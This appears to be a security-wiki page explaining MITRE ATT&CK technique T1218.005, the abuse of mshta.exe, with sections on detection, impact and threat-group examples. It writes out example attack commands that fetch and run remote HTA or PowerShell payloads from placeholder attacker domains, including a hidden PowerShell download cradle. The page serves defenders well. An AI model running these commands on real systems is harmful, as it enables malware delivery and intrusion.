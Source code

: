 ```yaml
---
description: Mshta [T1218.005]
icon: lock
---
```


# Mshta

## Information

- Name: Mshta
- ID: T1218.005
- Tactics: [TA0005](../TA0005/TA0005.md)
- Technique: [T1218](T1218.md)

## Introduction

Mshta (Microsoft HTML Application Host) is a legitimate Windows utility designed to execute HTML Application (.hta) files. In the MITRE ATT\&CK framework, Mshta is categorized under sub-technique T1218.005, which falls under the broader category of Signed Binary Proxy Execution. Adversaries exploit Mshta to execute malicious scripts and payloads, leveraging its trusted status to bypass application whitelisting, evade detection, and execute arbitrary code on compromised systems.

## Deep Dive Into Technique

Mshta.exe is a signed Microsoft binary located typically in the `%SystemRoot%\System32\` directory, responsible for running HTML Application files (.hta). HTA files are standalone applications that combine HTML, CSS, JavaScript, and VBScript, running with the privileges of the executing user. Adversaries commonly abuse Mshta due to its legitimate nature and capability to execute scripts directly from command-line arguments or remote URLs, thus facilitating fileless attacks.

Technical execution methods include:

- Direct execution of local HTA files:

  ```
  mshta.exe malicious_payload.hta
  ```

- Execution of HTA scripts hosted remotely:

  ```
  mshta.exe http://maliciousdomain.com/payload.hta
  ```

- Inline script execution without dropping files locally:

  ```
  mshta.exe vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://maliciousdomain.com/script.ps1')""")(window.close)
  ```

Mechanisms leveraged by attackers include:

- Bypassing application whitelisting controls by using trusted Windows binaries.
- Executing scripts in memory, reducing forensic footprints.
- Avoiding detection by traditional antivirus solutions, which usually trust signed Microsoft binaries.

Real-world procedures typically involve:

- Initial compromise via phishing emails or exploit kits delivering HTA payloads.
- Execution of malicious HTA files to establish persistence, download additional malware, or execute commands.
- Using Mshta to run scripts that invoke PowerShell or other scripting engines, further complicating detection and response.

## When this Technique is Usually Used

Attack scenarios and stages where Mshta is commonly employed include:

- **Initial Access**: Delivered through phishing campaigns as malicious email attachments or links to remote HTA files.
- **Execution Stage**: Used as a method to execute initial payloads and scripts immediately upon user interaction.
- **Defense Evasion**: Leveraged to bypass application whitelisting, antivirus, and endpoint detection tools by using a legitimate signed binary.
- **Persistence**: Configured to run at startup or through scheduled tasks, maintaining persistent access.
- **Command and Control (C2)**: Used to download and execute additional payloads from remote attacker-controlled servers.
- **Privilege Escalation and Lateral Movement**: Combined with other techniques, Mshta may facilitate further actions within compromised environments by executing scripts to escalate privileges or move laterally.

## How this Technique is Usually Detected

Detection methods and indicators of compromise (IoCs) associated with Mshta abuse include:

- **Process Monitoring and Logging**:
  - Monitor and alert on unusual executions of `mshta.exe`, especially those invoked from unexpected locations or processes.
  - Detect command-line arguments containing remote URLs or suspicious script content (e.g., inline VBScript or JavaScript).
- **Behavioral Analysis and Endpoint Detection Tools**:
  - Endpoint Detection and Response (EDR) solutions can identify anomalous behavior, such as Mshta spawning unexpected child processes (e.g., PowerShell, cmd.exe).
  - Monitor for abnormal network connections initiated by Mshta to external IP addresses or domains.
- **File and Registry Monitoring**:
  - Track creation or modification of `.hta` files in unusual locations (e.g., temporary directories, user profiles, startup folders).
  - Monitor registry keys associated with persistence mechanisms involving Mshta (e.g., scheduled tasks or startup items referencing HTA files).
- **Network Traffic Analysis**:
  - Inspect network traffic for HTTP/HTTPS requests initiated by Mshta to unknown or suspicious domains.
  - Analyze proxy logs and DNS queries for suspicious HTA-related requests.

Specific IoCs include:

- Command-line executions containing patterns such as:

  ```
  mshta.exe http://[malicious_domain]/[payload].hta
  mshta.exe vbscript:Execute(...)
  ```

- Unusual parent-child process relationships, such as Mshta spawning PowerShell, cmd, or other scripting engines.
- Network connections from Mshta.exe to known malicious IP addresses or domains.

## Why it is Important to Detect This Technique

Early detection of Mshta misuse is critical due to its significant potential impacts on systems and networks, including:

- **Bypassing Security Controls**:
  - Mshta's status as a trusted Microsoft binary allows attackers to circumvent traditional security measures, including antivirus and application whitelisting.
  - Early detection prevents attackers from gaining prolonged undetected access to the environment.
- **Rapid Malware Deployment**:
  - Attackers can quickly download and execute additional malware payloads, including ransomware, remote access trojans (RATs), or credential stealers.
  - Detection reduces the risk of widespread infection and limits damage.
- **Persistence and Long-Term Access**:
  - Attackers frequently leverage Mshta to establish persistent footholds within compromised environments.
  - Early identification and remediation disrupt attacker persistence, reducing dwell time.
- **Data Theft and Exfiltration**:
  - Malicious HTA scripts can facilitate data exfiltration, enabling attackers to steal sensitive information.
  - Timely detection prevents or mitigates data loss and regulatory compliance violations.
- **Privilege Escalation and Lateral Movement**:
  - Attackers can use Mshta to execute scripts that escalate privileges or move laterally within networks.
  - Early detection limits the scope of compromise and reduces the complexity and cost of incident response efforts.

## Examples

Real-world examples demonstrating Mshta abuse include:

- **FIN7 Threat Group**:
  - Known to deliver malicious HTA files via phishing emails containing links or attachments.
  - Utilized Mshta to execute scripts downloading additional malware, such as Carbanak malware variants, to compromise financial institutions and retail organizations.
- **Cobalt Strike Framework**:
  - Attackers frequently use Cobalt Strike to generate HTA payloads designed to be executed via Mshta.
  - These payloads establish initial footholds, perform reconnaissance, and facilitate further compromise.
- **APT32 (OceanLotus)**:
  - Utilized Mshta extensively in phishing campaigns targeting governments, journalists, and corporations in Southeast Asia.
  - Delivered malicious HTA files containing embedded scripts that downloaded and executed backdoors, enabling espionage activities.
- **TrickBot Malware Campaigns**:
  - TrickBot operators have leveraged Mshta to execute HTA payloads delivered through malicious email attachments or embedded URLs.
  - These HTA files downloaded and executed TrickBot malware, which then facilitated further infection with ransomware such as Ryuk.

Typical attack scenario example:

1. Victim receives a phishing email containing a malicious attachment or URL linking to an HTA file.
2. User opens the attachment or clicks the link, triggering Mshta execution:

   ```
   mshta.exe http://attacker-domain.com/payload.hta
   ```

3. Mshta executes embedded scripts, downloading secondary payloads or establishing persistent access.
4. Attackers gain initial foothold, escalate privileges, move laterally, and potentially exfiltrate sensitive data or deploy ransomware.

Impacts observed in these real-world cases include:

- Financial losses due to fraud or ransomware payments.
- Data breaches and sensitive information exposure.
- Operational disruptions and damages to organizational reputation.
